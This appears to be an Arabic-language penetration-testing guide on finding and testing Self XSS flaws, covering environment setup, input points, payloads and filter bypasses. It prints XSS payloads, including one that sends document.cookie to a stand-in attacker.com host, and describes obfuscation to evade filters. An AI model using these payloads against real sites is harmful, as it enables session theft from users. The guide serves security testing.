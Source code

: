 
## الخطوات العملية لاختبار ثغرة Self XSS

1. **إعداد البيئة**:
   - استخدم متصفحًا مع أدوات المطورين (F12) لمراقبة وحدة التحكم (Console)، الشبكة (Network)، وتغييرات DOM.
   - أعد خادمًا خارجيًا (مثل خادم Python بسيط أو `ngrok`) لتسجيل البيانات المرسلة من الحقن.
   - (اختياري) استخدم أداة وكيل (مثل **Burp Suite**) لمراقبة طلبات HTTP إذا كانت النقطة تتضمن إرسال بيانات إلى الخادم.
   - تأكد من أن لديك حسابًا في التطبيق لاختبار نقاط إدخال مثل إعدادات الملف الشخصي أو حقول النماذج.

2. **تحديد نقاط الإدخال العرضة**:
   - ابحث عن نقاط إدخال يتحكم بها المستخدم وتُعرض في الصفحة دون تخزين دائم أو تأثير على الآخرين، مثل:
     - حقول تحرير الملف الشخصي (الاسم، الوصف، أو السيرة الذاتية).
     - حقول نماذج تُعرض نتائجها مباشرة في الصفحة (مثل معاينة النص).
     - معلمات URL أو أجزاء منها (مثل `location.hash`) تُعالج في JavaScript.
     - واجهات تحرير المحتوى (مثل محررات النصوص أو الإعدادات).
   - افحص شيفرة JavaScript في الصفحة (عبر أدوات المطورين) لتحديد وظائف مثل `innerHTML`، `eval()`، أو `document.write()` التي تُعالج الإدخالات.
   - تحقق من سياق العرض (HTML، سمات، JavaScript، أو CSS) لتصميم الحقنة المناسبة.

3. **إدخال الحقن**:
   - أدخل شيفرة JavaScript أو HTML ضارة في نقطة الإدخال التي تُعرض في الصفحة.
   - صمم الحقنة لتنفيذ شيفرة عند عرض الإدخال، مثل:
     - `<script>alert('XSS')</script>`
     - `<img src=x onerror="fetch('http://attacker.com/log?c='+document.cookie)">`
     - `<a href="javascript:alert('XSS')">Click</a>`
   - جرب الحقن في سياقات مختلفة:
     - حقل الاسم في الملف الشخصي: أدخل `<script>alert('XSS')</script>`.
     - معاينة نموذج: أدخل `<img src=x onload="alert('XSS')">`.
     - URL: أدخل `https://example.com/#q=<img src=x onerror=alert('XSS')>` إذا كان يُعالج `location.hash`.

4. **مراقبة الاستجابات**:
   - تحقق من تنفيذ الحقنة عبر مراقبة الصفحة أو التفاعل معها:
     - **أدوات المطورين**: راقب وحدة التحكم (Console) للأخطاء أو التنبيهات، والشبكة (Network) للطلبات الصادرة.
     - **خادم خارجي**: تحقق من سجلات الخادم لتأكيد استلام البيانات (مثل ملفات تعريف الارتباط).
     - **تغييرات DOM**: تحقق من تعديل الصفحة أو إعادة التوجيه.
   - **نجاح (True)**: الشيفرة تُنفذ (مثل ظهور تنبيه، إرسال بيانات إلى الخادم، أو تغيير الصفحة).
   - **فشل (False)**: لا يتم التنفيذ بسبب فلاتر، تشفير، أو قيود CSP.
   - سجل النتائج لتحديد الحقن الناجحة.

5. **تجربة أنواع حقن مختلفة**:
   - إذا فشلت الحقنة، جرب أنواعًا أخرى:
     - استخدام وسوم مختلفة: `<script>`، `<img>`، `<svg>`، أو `<div>`.
     - استهداف أحداث مختلفة: `onload`، `onerror`، `onfocus`، أو `onmouseover`.
     - تجاوز الفلاتر: جرب صيغ بديلة مثل `<SCRIPT>` (حروف كبيرة)، تعتيم الشيفرة بـ Base64، أو استخدام أحرف مشفرة.
   - اختبر نقاط إدخال متعددة (مثل حقول أخرى في الملف الشخصي، معاينات النماذج، أو معلمات URL مختلفة).
   - جرب حقنًا تستهدف سياقات مختلفة (مثل حقن داخل سمات، JavaScript، أو CSS).

